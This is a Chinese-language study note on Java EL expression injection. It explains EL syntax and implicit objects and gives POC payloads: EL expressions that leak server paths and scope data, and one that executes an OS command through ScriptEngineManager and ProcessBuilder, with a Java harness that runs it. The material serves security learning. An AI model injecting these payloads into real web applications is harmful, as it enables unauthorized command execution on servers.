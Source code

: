 # EL表达式注入

之前见过很多次了但是一直没有学习过，了解一下。内容都摘录自mi1k7ea师傅的文章，因为讲的很好了。

## 简介

EL（Expression Language） 是为了使JSP写起来更加简单。

EL表达式主要功能如下：

- 获取数据：EL表达式主要用于替换JSP页面中的脚本表达式，以从各种类型的Web域中检索Java对象、获取数据（某个Web域中的对象，访问JavaBean的属性、访问List集合、访问Map集合、访问数组）；
- 执行运算：利用EL表达式可以在JSP页面中执行一些基本的关系运算、逻辑运算和算术运算，以在JSP页面中完成一些简单的逻辑运算，例如`${user==null}`；
- 获取Web开发常用对象：EL表达式定义了一些隐式对象，利用这些隐式对象，Web开发人员可以很轻松获得对Web常用对象的引用，从而获得这些对象中的数据；
- 调用Java方法：EL表达式允许用户开发自定义EL函数，以在JSP页面中通过EL表达式调用Java类的方法；

之后的利用更多是调用Java方法进行代码执行和命令执行，以及可能利用各种对象对一些配置进行修改。

## 基本语法

`${xxxxx}`

| 属性范围在EL中的名称 |                  |
| -------------------- | ---------------- |
| Page                 | PageScope        |
| Request              | RequestScope     |
| Session              | SessionScope     |
| Application          | ApplicationScope |

| 术语         | 定义                                                         |
| ------------ | ------------------------------------------------------------ |
| pageContext  | JSP页的上下文，可以用于访问 JSP 隐式对象，如请求、响应、会话、输出、servletContext 等。例如，`${pageContext.response}`为页面的响应对象赋值。 |
| param        | 将请求参数名称映射到单个字符串参数值（通过调用 ServletRequest.getParameter (String name) 获得）。getParameter (String) 方法返回带有特定名称的参数。表达式`${param . name}`相当于 request.getParameter (name)。 |
| paramValues  | 将请求参数名称映射到一个数值数组（通过调用 ServletRequest.getParameter (String name) 获得）。它与 param 隐式对象非常类似，但它检索一个字符串数组而不是单个值。表达式 `${paramvalues. name}` 相当于 request.getParamterValues(name)。 |
| header       | 将请求头名称映射到单个字符串头值（通过调用 ServletRequest.getHeader(String name) 获得）。表达式 `${header. name}` 相当于 request.getHeader(name)。 |
| headerValues | 将请求头名称映射到一个数值数组（通过调用 ServletRequest.getHeaders(String) 获得）。它与头隐式对象非常类似。表达式`${headerValues. name}`相当于 request.getHeaderValues(name)。 |
| cookie       | 将 cookie 名称映射到单个 cookie 对象。向服务器发出的客户端请求可以获得一个或多个 cookie。表达式`${cookie. name .value}`返回带有特定名称的第一个 cookie 值。如果请求包含多个同名的 cookie，则应该使用`${headerValues. name}`表达式。 |
| initParam    | 将上下文初始化参数名称映射到单个值（通过调用 ServletContext.getInitparameter(String name) 获得）。 |

| 术语             | 定义                                                         |
| ---------------- | ------------------------------------------------------------ |
| pageScope        | 将页面范围的变量名称映射到其值。例如，EL 表达式可以使用`${pageScope.objectName}`访问一个 JSP 中页面范围的对象，还可以使用`${pageScope .objectName. attributeName}`访问对象的属性。 |
| requestScope     | 将请求范围的变量名称映射到其值。该对象允许访问请求对象的属性。例如，EL 表达式可以使用`${requestScope. objectName}`访问一个 JSP 请求范围的对象，还可以使用`${requestScope. objectName. attributeName}`访问对象的属性。 |
| sessionScope     | 将会话范围的变量名称映射到其值。该对象允许访问会话对象的属性。例如：`${sessionScope. name}` |
| applicationScope | 将应用程序范围的变量名称映射到其值。该隐式对象允许访问应用程序范围的对象。 |

例子：

```jsp
${pageContext.request.queryString}
${param["username"]} //获取访问参数值,get和post的
${header["user-agent"]}
```



## POC

```jsp
//对应于JSP页面中的pageContext对象（注意：取的是pageContext对象）
${pageContext}

//获取Web路径
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}

//文件头参数
${header}

//获取webRoot
${applicationScope}

//执行命令
${"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc']).start()")}
```



## 例子

```java

import org.apache.el.ExpressionFactoryImpl;
import javax.el.ELContext;
import javax.el.ExpressionFactory;
import javax.el.StandardELContext;
import javax.el.ValueExpression;

public class MyTest {
    public static void main(String[] args) throws Exception {
        ExpressionFactory expressionFactory = new ExpressionFactoryImpl();
        ELContext elContext  = new StandardELContext(expressionFactory);
        String exp = "${\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc']).start()\")}";
        ValueExpression valueExpression = expressionFactory.createValueExpression(elContext, exp, String.class);
        System.out.println(valueExpression.getValue(elContext));
    }
}
```



## 参考文章

https://xz.aliyun.com/t/7692